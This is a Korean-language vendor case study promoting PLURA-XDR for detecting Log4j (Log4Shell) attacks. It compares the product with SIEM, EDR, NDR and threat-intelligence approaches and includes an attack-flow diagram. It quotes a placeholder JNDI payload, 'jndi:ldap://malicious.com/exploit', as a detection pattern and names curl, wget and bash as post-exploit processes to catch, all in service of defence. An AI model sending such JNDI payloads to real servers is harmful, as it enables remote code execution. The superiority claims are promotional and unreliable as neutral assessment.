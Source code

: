 ## `사례 1` Log4j(Log4Shell) 취약점 공격 탐지

### **1️⃣ 기존 위협 헌팅(SIEM + EDR + NDR + TI)이 탐지하지 못하는 이유**
| **비교 항목** | **기존 위협 헌팅 (SIEM + EDR + NDR + TI)** | **PLURA 웹 요청 본문 분석 + EDR** |
|----------|-------------------------------|-------------------------------|
| **탐지 방식** | IOC(위협 인텔리전스) 기반 탐지 → 기존 패턴 매칭에 의존하여 새로운 공격 탐지 어려움 | 행위 기반 탐지 → 웹 요청 본문과 실행 행위까지 실시간 분석하여 신규 공격 탐지 가능 |
| **웹 애플리케이션 공격 탐지** | 웹 요청 헤더, URL 분석만 가능 → 요청 본문 내부의 악성 패턴 분석 불가능 | **웹 요청 본문을 실시간 분석하여 JNDI 호출 패턴 탐지 가능** |
| **네트워크 트래픽 분석** | NDR이 SSL 복호화 후 패킷 분석 가능하지만 요청 본문 분석 불가 | **요청 본문을 분석하여 JNDI 패턴 포함 여부를 확인하고 탐지 가능** |
| **엔드포인트 보안** | EDR이 실행된 프로세스를 감지 가능하지만, 웹 애플리케이션에서 발생한 공격과의 연계 분석 어려움 | **EDR이 원격 코드 실행(RCE) 발생 시, 악성 프로세스 실행(Fork, Execve) 탐지 가능** |

### **2️⃣ 기존 위협 헌팅이 탐지하지 못하는 이유 상세 설명**
1. **SIEM + TI(Threat Intelligence) 한계**  
   - 기존 SIEM 및 TI는 **정적 IOC(Indicator of Compromise) 기반 탐지**에 의존합니다.  
   - 즉, **이미 알려진 악성 IP, 도메인, 파일 해시 값 등을 기반으로 탐지**하기 때문에, Log4j처럼 **새롭게 등장한 취약점을 이용한 공격을 탐지하기 어려움**.  
   - 공격자들이 **새로운 JNDI 호출 변형(payload 변형)을 이용하면 IOC 매칭을 우회**할 수 있음.  

2. **NDR(네트워크 기반 탐지)의 한계**  
   - NDR은 **SSL 복호화를 통해 네트워크 트래픽을 분석할 수 있지만, 요청 본문(payload)까지 정밀하게 분석하지 못함**.  
   - 즉, `jndi:ldap://malicious.com/exploit` 같은 **악성 페이로드가 포함된 웹 요청의 본문을 분석할 수 없음**.  
   - 네트워크 단에서 악성 트래픽이 발생할 수 있지만, **로그의 맥락(context)을 고려한 분석이 어려움**.  

3. **EDR(엔드포인트 보안)의 한계**  
   - EDR은 웹 서버 내에서 발생하는 악성 프로세스 실행(`curl`, `wget`, `bash` 등)을 감지할 수 있음.  
   - 하지만, **웹 애플리케이션에서 공격이 시작된 원인을 직접 분석하지 못하기 때문에, 웹 요청과 실행 프로세스 간의 연관성을 파악하기 어려움**.  
   - 즉, **웹 요청 → 악성 코드 실행**까지의 공격 흐름을 제대로 분석하지 못하면, 단순한 이상 프로세스로 오탐할 가능성이 있음.  

---

### **3️⃣ PLURA 웹 요청 본문 분석 + EDR을 통한 탐지 방법**
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
   - PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 패턴을 탐지 가능.  
   - 검색창, 유저 입력값, HTTP 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  
   - 기존 WAF가 탐지하지 못하는 **다양한 JNDI 호출 변형을 분석하여 우회 공격도 탐지 가능**.  

✅ **2) 실행 행위 기반 탐지 및 차단 (EDR 연계)**  
   - 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우,  
   - PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트(Fork, Execve) 탐지**.  
   - 예를 들어, 공격 성공 후 `curl`, `wget`, `bash` 등의 프로세스가 실행되면 이를 감지하여 즉시 차단 가능.  

✅ **3) 공격 흐름을 상관 분석하여 추가 공격 차단**  
   - 기존 IOC 기반 탐지가 어려운 공격이라도, **LDAP/RMI 요청 이후 특정 프로세스가 실행되는 패턴을 탐지하여 추가 공격을 사전 차단 가능**.  
   - 즉, 공격자가 **JNDI 호출 변형을 사용하여 시그니처 기반 탐지를 우회**하려 해도 **행위 분석을 통해 탐지 가능**.  

---
### **4️⃣ Log4j(Log4Shell) 공격 흐름**  
```mermaid
graph TD
    A[공격자] -->|JNDI Payload 포함 요청| B[취약한 웹 애플리케이션]
    B -->|로그 저장| C[Log4j 취약점 존재]
    C -->|JNDI Lookup 수행| D[외부 악성 서버 접속]
    D -->|악성 코드 전송| E[웹 서버에서 RCE 발생]
    E -->|백도어 설치| F[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|JNDI 패턴 탐지| Y[공격 차단]
    E -->|프로세스 모니터링| Z[EDR 탐지 및 실행 차단]
```


---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR이 Log4j 공격 탐지에서 뛰어난 이유**
✅ **기존 위협 헌팅(SIEM + EDR + NDR + TI)은 IOC 기반 탐지에 의존하여 Log4j처럼 새로운 공격 패턴을 탐지하는 데 한계가 있음**.  
✅ **PLURA-XDR은 웹 요청 본문을 분석하고 행위 기반 탐지를 수행하여 Log4j 공격을 실시간으로 탐지 가능**.  
✅ **WAF를 우회하는 공격, 크리덴셜 스터핑, API Abuse, 랜섬웨어 탐지까지 대응 가능**.  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단**.  

🔹 **PLURA-XDR은 기존 보안 체계가 탐지하지 못하는 Zero-Day 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  

---
